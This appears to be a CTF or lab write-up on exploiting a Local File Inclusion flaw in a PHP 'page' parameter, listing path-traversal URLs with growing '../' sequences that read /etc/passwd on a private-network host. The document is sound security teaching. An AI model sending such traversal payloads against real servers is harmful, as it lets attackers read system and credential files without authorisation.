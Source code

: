 # Local File Inclusion

We can see a query page in multiple url.

http://192.168.56.102/index.php?page=survey
http://192.168.56.102/index.php?page=member

The server probably loads a local file with a relative path.
We can use that breach to access to files at the root folder of the machine like /etc/passwd
to get some interesting informations.

Lets try this link:
http://192.168.56.102/index.php?page=../member

There is an alert that say "Wtf?"!!

We can try to access and go back to the parent directory.
Every time we had ../ the message is different.

http://192.168.56.102/index.php?page=../etc/passwd
http://192.168.56.103/index.php?page=../../etc/passwd
http://192.168.56.103/index.php?page=../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../../../etc/passwd
http://192.168.56.103/index.php?page=../../../../../../../etc/passwd

**We got it!!**

## External Resources
https://book.hacktricks.xyz/pentesting-web/file-inclusion
